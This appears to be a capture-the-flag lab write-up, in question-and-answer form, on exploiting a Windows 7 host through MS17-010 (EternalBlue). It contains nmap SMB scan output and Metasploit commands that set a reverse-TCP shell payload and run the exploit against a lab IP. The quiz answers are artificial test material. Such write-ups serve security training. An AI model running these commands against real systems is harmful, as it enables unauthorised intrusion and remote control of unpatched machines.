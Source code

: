 ```
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2025-06-19T19:14:38
|_  start_date: 2025-06-19T19:01:29
|_clock-skew: mean: 1h14m59s, deviation: 2h30m01s, median: -1s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-06-19T14:14:38-05:00
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```



Q. How many ports are open with a port number under 1000?
A. 3

Q. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
A. MS17-010

googled Windows 7 Professional "7601" Service Pack 1. found MS11-071, MS11-026. But we all know it must be eternal blue!

# TASK 2

Start Metasploit

```bash
msfconsole
search ms17-010
info 0
RHOSTS
```



Q. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
A. exploit/windows/smb/ms17_010_eternalblue

Q. Show options and set the one required value. What is the name of this value? (All caps for submission)
A. RHOSTS
```
use exploit exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.65.51
set payload windows/x64/shell/reverse_tcp
Set LHOST to 10.10.10.10
exploit
```
